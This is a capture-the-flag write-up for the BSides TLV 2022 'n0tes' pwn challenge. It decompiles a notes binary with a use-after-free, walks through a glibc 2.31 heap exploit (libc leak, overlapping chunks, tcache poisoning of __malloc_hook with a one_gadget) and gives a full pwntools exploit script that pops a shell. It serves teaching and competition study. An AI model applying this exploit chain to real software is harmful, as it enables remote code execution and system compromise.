

### BSides TLV CTF 2022 pwn - n0tes (400)

@Bob123 solved this challenge and walked me through the exploit, hopefully its somewhat accurate haha

### Source

Here is the decompilation of the binary in Ghidra with some functions and types modified

```c
void add_note(void)
{
  ulong uVar1;
  long in_FS_OFFSET;
  uint size_input;
  uint num_notes;
  void *note_struct;
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  num_notes = check_byte_space();
  if (num_notes < 10) {
    printf("Size: ");
    __isoc99_scanf("%u",&size_input);
    if (size_input < 0x411) {
      note_struct = malloc((ulong)size_input);
      printf("Data: ");
      real_size = read(0,note_struct,(ulong)size_input);
      size_input = (uint)real_size;
      *(undefined *)((long)note_struct + (real_size & 0xffffffff)) = 0;
      *(void **)(&base_address + (ulong)num_notes * 8) = note_struct;
      printf("Successfully created note %u\n",(ulong)num_notes);
    }
    else {
      puts("Error: Invalid note size");
    }
  }
  else {
    puts("Error: Max number of notes reached\n");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}


void show_note(uint param_1)
{
  int note_exists;

  note_exists = check_note_exists(param_1);
  if (note_exists != 0) {
    printf("\nData: %s\n",*(undefined8 *)(&base_address + (ulong)param_1 * 8));
  }
  return;
}

void delete_note(uint param_1)

{
  int note_exists;

  note_exists = check_note_exists(param_1);
  if (note_exists != 0) {
    free(*(void **)(&base_address + (ulong)param_1 * 8));
    printf("Successfully deleted note %u\n",(ulong)param_1);
  }
  return;
}
```

### Brief setup

- pwninit --> patchelf
- we are given `libc-2.31.so` so there's some protections such as double free detection
- write a few helper functions to help interface with the binary better

```python
def create_note(p,size, value):
    global next_note_index
    assert len(value) <= size
    p.sendline(b"1")
    p.sendlineafter(b"Size: ", str(size).encode())
    p.sendlineafter(b"Data: ", value)
    print(p.recvline())
    p.recvuntil(b"> ")
    result = next_note_index
    next_note_index += 1
    return result

def delete_note(p,idx):
    p.sendline(b"3")
    p.sendlineafter(b"Note id: ", str(idx).encode())
    print(p.recvline())
    p.recvuntil(b"> ")

def view_note(p,idx):
    p.sendline(b"2")
    p.sendlineafter(b"id: ", str(idx).encode())
    res = p.recvuntil(b"> ")
    end = res.find(b"1. Add")
    starting = b'Data: '
    start = res.find(starting)
    note = res[start + len(starting):end-1]
    return u64(note +b"\x00\x00")
```

### Solution

1. Create 2 chunks that will eventually be consolidated

```python
create_note(p,0x410,'') # note 1
create_note(p,0x410,'') # note 2
```

- During freeing, small and large chunks may coalesce together before ending up in the unsorted bin
- The heap manager periodically 'consolidates' the heap, flushing each entry in the fast bin by merging adjacent free chunks and placing them together in the unsorted bin
  - This consolidation happens whenever
    - malloc request is made beyond what fastbin can serve (512 bytes - 32 bit, 1024 bytes, 64 bit)
    - freeing chunks > 64kb (defined in the constant `FASTBIN_CONSOLIDATION_THRESHOLD` in `malloc.c`)
    - or when `malloc_trim` or `mallopt` are called by program
  - for this particular challenge, consolidation only happens in the unsorted bin
- Chunks in this case will have `0x410` bytes of data, `0x10` bytes of metadata, and apart from the first chunk, `0x1` byte to designate that the previous byte is in use

2. Prepare the chunk that will eventually go to tcache

```python
create_note(p,0xf0,'') # 3
```

- The size 0xf0 is quite arbitrary, most any size will work, just take note that the actual size is `0xf0 + 0x10 = 0x100` due to the metadata, which will be important for the next step
- You must create this chunk before you do any other freeing, otherwise it will be serviced by the previously freed chunks

3. Get a libc leak, by viewing pointer of a freed chunk

```python
delete_note(p,0)
leak = view_note(p,0)
```

- After freeing, the note will will end up in the unsorted bin
  - For sizes smaller than `0x80`, it will end up in the fast bin
  - It might end up in tcache if the chunk is an appropriate size (24 to 1032 bytes in 16 byte increments) and the corresponding bin isn't full (64)
- Viewing the address here will leak the `MAIN_ARENA` address of the libc
- From there we can calculate the relevant offsets using the scripts to get [main_arena](https://github.com/bash-c/main_arena_offset) and [one_gadget](https://github.com/david942j/one_gadget) and calculate the malloc hook appropriately.

```python
base = leak - main_arena
gadget = base + one_gadget
malloc_hook = base + libc.symbols['__malloc_hook']
```

4. Free the next chunk, which will coalesce to form a `0x840` chunk in unsorted bin

```python
delete_note(p,1)
```

5. Create overlapping chunks

```python
create_note(p,0x400,'') # 4
create_note(p,0x410,p64(0x100) + p64(0x101)) # 5
```

- So we initially have a |---0x840---| byte chunk in the unsorted bin
- the first 0x400 is serviced by this chunk + 0x10 bytes of metadata, so we have |--0x430--| as the remaining chunk
- The second note of size 0x410 (+ 0x10 of heap metadata) overlaps with note 2
  - before, after from unsorted bin
  - |----0x420-----|----0x420-----|
  - |----0x410--|--0x420---|-0x10-|
  - So the second note of 0x410 overlaps with the middle pointer from note 2 (index 1).
  - We then write the data `p64(0x100)+p64(101)` which is essentially
  ```
    00010000000000000101000000000000
  ```
- The chunk starts at offset 8 from our input (because the first allocated chunk was 0x400), so it actually contains the prev_size field (check the diagram). The 8 bytes are not actually necessary and `p64(0) or p64(0x100)` both work but the second one is more accurate (note the earlier chunk size of note 3/ index 2)
- The next `p64(0x101)` indicates that the actual current chunk size is `0x100` and the extra 1 is to set the `prev_in_use` flag to indicate not to consider this chunk for coalescing.
  - if `prev_in_use` flag is not set, then the `prev_size` will be checked and must be a legal value



6. Setting up Tcache

```python
#size exclude metaeata
delete_note(p,2) #chunk number 3: 0xf0 size
delete_note(p,1) #chunk number 2: 0x410 in size, don't know why never trigger double free
delete_note(p,4) #chunk number 5: 0x410 in size
```

- the first free will cause chunk number 3 to land in the Tcache
- the second delete is technically a double free but it is not detected because it is in 2 separate bins, namely the tcache and the unsorted
  - the forged chunk is part of the chunk in the unsorted bin, not itself in the unsorted bin.
- `delete_node(p,4)` put the chunk created (with the `prev_in_use` flag set) previously back into the unsorted bin, so we can allocate it again.

- if chunk size < 0x420 -> go tcache, else go unsorted bin
- if tcache full -> go fastbin if small enough, else: go unsorted bin

7. Tcache Poisoning

```python
create_note(p,0x410,p64(0) + p64(0x101) + p64(malloc_hook)) # 6
```

- Overwrite fwd pointer of the tcache chunk with the malloc_hook

8. Replace `malloc_hook` with the one gadget

```python
create_note(p,0xf0,'') # 7
create_note(p,0xf0,p64(gadget)) # 8
```

9. Trigger the one gadget by calling `malloc`

```python
p.sendline(b"1")
p.sendline(b"1")
```

10. Full script!

```python
from pwn import *
host, port = 'n0tes.ctf.bsidestlv.com',9999

def conn():
    p = remote(host,port)
    return p

next_note_index = 0
libc = ELF("./libc-2.31.so")
main_arena = 0x1ecbe0
one_gadget = 0xe3b01
__malloc_hook = 2018160
def create_note(p,size, value):
    global next_note_index
    assert len(value) <= size
    p.sendline(b"1")
    p.sendlineafter(b"Size: ", str(size).encode())
    p.sendlineafter(b"Data: ", value)
    print(p.recvline())
    p.recvuntil(b"> ")
    result = next_note_index
    next_note_index += 1
    return result

def delete_note(p,idx):
    p.sendline(b"3")
    p.sendlineafter(b"Note id: ", str(idx).encode())
    print(p.recvline())
    p.recvuntil(b"> ")

def view_note(p,idx):
    p.sendline(b"2")
    p.sendlineafter(b"id: ", str(idx).encode())
    res = p.recvuntil(b"> ")
    end = res.find(b"1. Add")
    starting = b'Data: '
    start = res.find(starting)
    note = res[start + len(starting):end-1]
    return u64(note +b"\x00\x00")

def main():
    p = conn()
    p.recvuntil(b'> ')
    create_note(p,0x410,'') # 1
    create_note(p,0x410,'') # 2
    create_note(p,0xf0,'') # 3

    # leak address
    delete_note(p,0)
    leak = view_note(p,0)
    base = leak - main_arena
    gadget = base + one_gadget
    malloc_hook = base + __malloc_hook
    print(hex(base))
    delete_note(p,1)


    # overlapping chunk
    create_note(p,0x400,'') # 4
    create_note(p,0x410,p64(0) + p64(0x101)) # 5
    delete_note(p,2)
    delete_note(p,1)
    delete_note(p,4)
    create_note(p,0x410,p64(0) + p64(0x101) + p64(malloc_hook)) # 6

    create_note(p,0xf0,'') # 7
    create_note(p,0xf0,p64(gadget)) # 8

    # trigger the malloc
    p.sendline(b"1")
    p.sendline(b"1")

    p.interactive()


if __name__ == "__main__":
    main()
```

### Flag

```
BSidesTLV2022{m4st3r-th3-fr33l1s7s-m4st3r-th3-w0rld}
```

### Notes

- [https://hackmag.com/security/heap-allocation/](https://hackmag.com/security/heap-allocation/)
- [https://github.com/david942j/one_gadget](https://github.com/david942j/one_gadget)
- [https://0x3f97.github.io/how2heap/2018/01/27/overlapping-chunks/](https://0x3f97.github.io/how2heap/2018/01/27/overlapping-chunks/)
- [https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/chunk_extend_overlapping/](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/chunk_extend_overlapping/)
- [https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)
- [https://gist.github.com/slick1015/8b64b8e6e44d444e8b9d32e2651071fb](https://gist.github.com/slick1015/8b64b8e6e44d444e8b9d32e2651071fb)
- [https://guyinatuxedo.github.io/31-unsortedbin_attack/0ctf16_zerostorage/index.html](https://guyinatuxedo.github.io/31-unsortedbin_attack/0ctf16_zerostorage/index.html)
